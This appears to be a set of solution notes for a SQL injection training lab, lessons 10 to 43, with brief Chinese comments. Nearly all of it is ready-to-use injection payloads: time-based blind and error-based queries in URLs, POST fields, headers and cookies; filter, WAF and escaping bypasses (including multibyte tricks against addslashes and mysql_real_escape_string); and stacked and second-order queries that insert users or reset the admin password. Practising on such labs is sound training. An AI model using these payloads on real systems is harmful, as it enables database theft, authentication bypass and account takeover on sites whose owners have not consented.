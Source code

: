 10. Blind-Time based-Double Quotes: FalseOK : ?id=1" and if(database() regexp '[a-z]', !sleep(5), 0) --+
	1st. try ?id=1' and if(1=1, !sleep(5), 0) --+  // no sleep
	2nd. try ?id=1" and if(1=1, !sleep(5), 0) --+  // sleep
	3nd. try ?id=1" and if(database() regexp '[a-z]', !sleep(5), 0) --+  // sleep
11. Post injection - Error Based String : '
12. Post injection - Error Based String : ")
13. Post injection - Double Injection-String-with-twist : ') && into outfile OR Error-Based
	uname=1') union select 1,count(*) from information_schema.tables group by concat_ws("::", database(), floor(rand(0)*2)) #&passwd=&submit=Submit
14. Post injection - Double Injection-Double quotes : "  && into outfile OR Error-Based
	uname=1" union select 1,count(*) from information_schema.tables group by concat_ws("::", database(), floor(rand(0)*2)) #&passwd=&submit=Submit
15. Post injection - Blind - Boolian Based : guess '  && into outfile
	uname=' or if(database() regexp '[a-z]', !sleep(5), 0) limit 0,1#&passwd=&submit=Submit
16. Post injection - Blind - Time Based : guess ") && into outfile 
	uname=") or if(database() regexp '[a-z]', !sleep(5), 0) limit 0,1#&passwd=&submit=Submit
17. Update Query - Error based - String : uname=admin&passwd=1' and extractvalue(1, concat("::", database(), "::", version())) #&submit=Submit
18. Header Injection-Error Based-String : User-Agent: ' and extractvalue(1,concat(0x7e,(select @@version),0x7e)) and '1'='1   // (must have a legal account)
19. Header Injection-Referer-Error Based-String : Referer: ' and extractvalue(1,concat(0x7e,(select @@version),0x7e)) and '1'='1
20. Form injection Cookie Injection-Error Based-String : Cookie : uname=admin' and extractvalue(1,concat(0x7e,(select @@basedir),0x7e))#
21. Form injection Cookie Injection-Error Based-complex-String : Cookie : uname=base64_encode "  admin') and extractvalue(1,concat(0x7e,(select @@basedir),0x7e))# "
22. Form injection Cookie Injection-Error Based-Double Quotes-String : Cookie :  uname=base64_encode ' admin" and extractvalue(1,concat(0x7e,(select @@basedir),0x7e))# '
18-22: 要通过阅读源代码，找到源码漏洞后才能实施攻击，否则难如登天。
23. Error Based - no comments : ?id=-1' union select 1,2,3 'name_of_3        //过滤了--和#，想办法闭合SQL语句。
24. Second Degree Injections : 要攻克admin密码，首先注册新用户admin'#，然后登录，重置密码时重置了admin的密码。
25. Trick with OR & AND : Filter bypass. ascii %xx : ?id=0' union select 1,2,3 'name_of_3
26. Trick with comments : Filter bypass. ascii %xx : ?id=0'%a0union%a0select%a01,database(),3%a0'name_of_3
26a Trick with comments : Filter bypass. ascii %xx : ?id=0')%a0union%a0select%a01,database(),('3
27. Trick with SELECT & UNION : Filter bypass. ascii %xx : ?id=0'%a0uniOn%a0SelEct%a01,2,3%a0'a
27a Trick with SELECT & UNION : Filter bypass. ascii %xx : ?id=0"%a0uniOn%a0SelEct%a01,2,3%a0"a
28. Trick with SELECT & UNION : Filter bypass. ascii %xx : ?id=0')%a0union%a0select%a01,2,3||('a
28a Trick with SELECT & UNION : Filter bypass. ascii %xx : ?id=0') union%a0select 1,2,3 || ('a
29. Protection with WAF : id=1&id=-1' union select 1,user(),3 'a
	http://www.ntu.edu.sg/home/ehchua/programming/howto/Tomcat_HowTo.html
	find / -name webapps
30. WAF Protect : ?id=1&id=-1" union select 1,2,3 --+
	1st. try ?id=1&id=1' and if(1=1, !sleep(5), 0) --+  // no sleep
	2nd. try ?id=1&id=1" and if(1=1, !sleep(5), 0) --+  // sleep
31. WAF Protect : ?id=1&id=-1") union select 1,2,3 --+
32. Bypass addslashes() : ?id=0%aa' union select 1,version(),3 --+
33. Bypass addslashes() : ?id=0%aa' union select 1,version(),3 --+
34. Bypass AddSLASHES() : python -c "print \"\xaa' union select 1,2 #\""
35. why care for addslashes() : ?id=0 union select 1,2,3 --+
36. Bypass MySQL Real Escape String : ?id=0%aa' union select 1,version(),3 --+
37. Bypass mysql_real_escape_string : python -c "print \"\xaa' union select 1,2 #\""
38. stacked Query : id=1';insert into users(id,username,password) values ('38','less38','hello')--+
39. stacked Query : id=1;insert into users(id,username,password) values ('39','less39','hello')--+
40. stacked Query : id=1');insert into users(id,username,password) values ('40','less40','hello')--+
41. stacked Query Intiger type blind :
	?id=1' and if(1=1, !sleep(5), 0) --+  // no sleep
	?id=1  and if(1=1, !sleep(5), 0) --+  // sleep
42. Stacked Query error based : username:admin password:c'; insert into users (username, password) values ('admin\'#', '123') #
43. Stacked Query error based : username:admin password:c'); update users set password='321' where username='admin' #